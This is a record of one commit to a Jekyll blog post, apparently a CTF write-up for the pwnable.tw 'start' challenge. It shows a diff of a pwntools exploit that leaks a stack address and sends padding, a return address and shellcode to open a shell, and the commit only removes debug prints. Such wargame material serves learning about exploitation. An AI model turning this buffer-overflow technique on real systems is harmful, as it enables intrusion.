

Before and after one commit to Delt-A/delt-a.github.io, a Jekyll site: the page built from _posts/2019-04-08-pwnable-tw-start.md, in a window 1280 px wide and 900 px high, scrolled down 959 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Update 2019-04-08-pwnable-tw-start.md

```diff
--- a/_posts/2019-04-08-pwnable-tw-start.md
+++ b/_posts/2019-04-08-pwnable-tw-start.md
@@ -30,13 +30,10 @@ from pwn import *
   conn.send(payload)
   esp_add = conn.recv(20)
 
-  print esp_add
+  esp_add = u32(esp_add[0:4])
 
-  esp_add = u32(esp_add[0:4])
-  print esp_add
   payload = 'A' * 20 + p32(esp_add + 20) + shellcode
   conn.send(payload)
-
 
   conn.interactive()
   conn.close()
```
